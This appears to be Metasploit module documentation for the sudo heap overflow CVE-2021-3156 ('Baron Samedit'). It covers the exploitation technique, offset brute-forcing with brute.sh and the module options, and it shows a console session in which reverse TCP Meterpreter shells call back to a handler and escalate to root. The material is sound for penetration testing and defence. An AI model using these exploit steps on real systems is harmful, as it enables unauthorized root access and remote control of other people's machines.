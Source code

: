 ## Vulnerable Application

A heap based buffer overflow exists in the sudo command line utility that can be exploited by a local attacker
to gain elevated privileges. The vulnerability was introduced in July of 2011 and affects version 1.8.2
through 1.8.31p2 as well as 1.9.0 through 1.9.5p1 in their default configurations. The technique used by this
implementation leverages the overflow to overwrite a `service_user` struct in memory to reference an attacker
controlled library which results in it being loaded with the elevated privileges held by sudo.

### Manual Target

The exploit requires a number of lengths / offsets to function correctly. The manual target can be used to specify
these values if they are known. To identify the values, use the `brute.sh` script from the original PoC repository at
[blasty/CVE-2021-3156][1].

On the target system, the rough steps include:

1. Clone the repository, install necessary build tools and GNU parallel (`sudo apt-get install parallel` on Debian-based
  systems)
1. Do: `make brute`
1. Do: `./brute.sh ...` with the desired options to bruteforce, (see the [README.md][2])
1. Wait for the bruteforce to complete, hopefully finding a successful option.

    Successful results will be written to the `success.txt` file. They will look something like this:
    
    ```
    ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
    
    using target: Manual ['/usr/bin/sudoedit'] (56, 57, 60, 200)
    ** pray for your rootshell.. **
    [+] bl1ng bl1ng! We got it!
    ```
    
    In this case `56, 57, 60, 200` are the required values.

1. From Metasploit
    1. Do: `set TARGET Manual` to specify the manual target
    1. Do: `set Lengths 56, 57, 60, 200` to set the explicit lengths (substitute the numbers as necessary)

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/local/sudo_baron_samedit`
1. Set the necessary options (target, payload, etc.)
1. Do: `run`

## Options

### WritableDir

A directory where you can write files. The necessary source code will be uploaded and compiled to here, along with the
payload library.

### Lengths
*This is an advanced option.*

The lengths to set as used by the manual target. See the "Manual Target" section.

## Scenarios

### Ubuntu 20.04.1 x64

```
msf6 exploit(multi/ssh/sshexec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] 192.168.159.34:22 - Sending stager...
[*] Command Stager progress -  42.75% done (342/800 bytes)
[*] Sending stage (980808 bytes) to 192.168.159.34
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.34:47868) at 2021-02-11 11:55:21 -0500
[!] Timed out while waiting for command to return
[*] Command Stager progress - 100.00% done (800/800 bytes)

meterpreter > getuid
Server username: smcintyre @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/ssh/sshexec) > use exploit/linux/local/sudo_baron_samedit
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/sudo_baron_samedit) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/sudo_baron_samedit) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(linux/local/sudo_baron_samedit) > set TARGET Automatic
TARGET => Automatic
msf6 exploit(linux/local/sudo_baron_samedit) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Executing automatic check (disable AutoCheck to override)
[!] The service is running, but could not be validated. sudo 1.8.31 maybe a vulnerable build.
[*] Using automatically selected target: Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)
[*] Writing '/tmp/libnss_9S9MeS/tB8M .so.2' (564 bytes) ...
[*] Sending stage (3008420 bytes) to 192.168.159.34
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.34:47870) at 2021-02-11 11:55:56 -0500
[+] Deleted /tmp/p60htQTDNO
[+] Deleted /tmp/libnss_9S9MeS/tB8M .so.2
[+] Deleted /tmp/libnss_9S9MeS

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

[1]: https://github.com/blasty/CVE-2021-3156
[2]: https://github.com/blasty/CVE-2021-3156/blob/da68f7c1a2961595a3226b903f1fc180b8824255/README.md#bruteforce-target-finding-experimental
